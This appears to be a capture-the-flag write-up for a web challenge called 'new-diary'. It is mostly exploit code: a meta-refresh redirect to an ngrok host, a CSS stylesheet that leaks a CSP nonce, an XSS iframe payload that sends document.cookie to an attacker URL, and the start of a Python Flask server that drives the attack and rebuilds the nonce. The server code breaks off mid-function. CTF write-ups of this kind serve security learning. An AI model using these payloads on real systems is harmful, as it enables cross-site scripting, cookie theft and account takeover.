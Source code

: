 ### First note (ID 0)

Meta tag redirect

```html
<meta http-equiv="refresh" content="0.0;url=https://25de-37-160-34-111.ngrok-free.app/">
```

### Second Note (ID 1)

Nonce leak

```html
<link rel="stylesheet" href="https://unpkg.com/alemmi@x.x.x/leak.css"><input />
```

### Third Note (ID 2)

XSS

```html
<iframe name=asdasd srcdoc='<script nonce="{nonce}">fetch("{ngrok_url}/flag?flag="+encodeURI(document.cookie))</script>'></iframe>
```

### Final exploit

Just go to `/exploit` and everything will be automatically done. Obviously, you need to open a ngrok http tunnel to a port, and open the python server to the same port. Furthermore, the leak.css file should have the ngrok url as well.

`server.py`:

```py
import requests
from flask import Flask, request, render_template, redirect, url_for, session, make_response
import random

s = requests.Session()

url = 'http://new-diary.ctf.0ops.sjtu.cn'

# little random
user = 'pwn'+str(random.randint(0, 1000000))
ngrok_url = 'https://679d-131-175-28-197.ngrok-free.app/'

app = Flask(__name__)

nonce_substr = set()


def retrieveNonce(nonce_substr=nonce_substr, force=False):
    # find the beginning of the nonce (there is no match for start)
    new_substr = list(nonce_substr)
    if (len(new_substr) != 30 and not force):
        print(f"different length of new_substr [{len(new_substr)}] - aborting")
        return 0
    backup = []
    nonce = ''
    remove_i = 0
    for i in range(len(new_substr)):
        start_i = new_substr[i][0:2]
        left = 0
        for j in range(len(new_substr)):
            end_j = new_substr[j][-2:]
            if i != j:
                if start_i == end_j:
                    left = 1
```
